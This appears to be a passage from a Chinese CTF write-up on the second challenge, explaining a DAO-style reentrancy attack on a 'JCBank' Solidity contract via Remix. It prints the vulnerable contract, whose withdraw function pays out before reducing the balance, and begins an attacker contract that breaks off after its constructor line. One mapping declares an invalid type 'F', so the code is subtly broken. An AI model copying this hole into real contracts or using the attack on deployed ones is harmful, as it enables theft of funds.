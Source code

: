# 韭菜第二题
再说一遍，丁大佬nb


The Dao攻击

去`https://remix.ethereum.org/#optimize=false&evmVersion=null&version=soljson-v0.4.26+commit.4563c3fc.js`写代码，新建一个`MyContract`，然后点击指定版本的智能合约进行编译

填写JCbank的合约地址，然后部署
```
pragma solidity ^0.4.26;

contract JCBank {
    mapping (address => F) public balance;
    mapping (uint => bool) public got_flag;
    uint128 secret;

    constructor (uint128 init_secret) public {
        secret = init_secret;
    }

    function deposit() public payable {
        balance[msg.sender] += msg.value;
    }

    function withdraw(uint amount) public {
        require(balance[msg.sender] >= amount);
        msg.sender.call.value(amount)();
        balance[msg.sender] -= amount;
    }

    function get_flag_1(uint128 guess) public view returns(string) {
        require(guess == secret);

        bytes memory h = new bytes(32);
        for (uint i = 0; i < 32; i++) {
            uint b = (secret >> (4 * i)) & 0xF;
            if (b < 10) {
                h[31 - i] = byte(b + 48);
            } else {
                h[31 - i] = byte(b + 87);
            }
        }
        return string(abi.encodePacked("flag{", h, "}"));
    }

    function get_flag_2(uint user_id) public {
        require(balance[msg.sender] > 1000000000000 ether);
        got_flag[user_id] = true;
        balance[msg.sender] = 0;
    }
    
    
    
}

contract MyContract {
    JCBank c;
    address owner;
    uint public number;
    
    function MyContract(address _c) public payable {
        c = JCBank(_c);
```
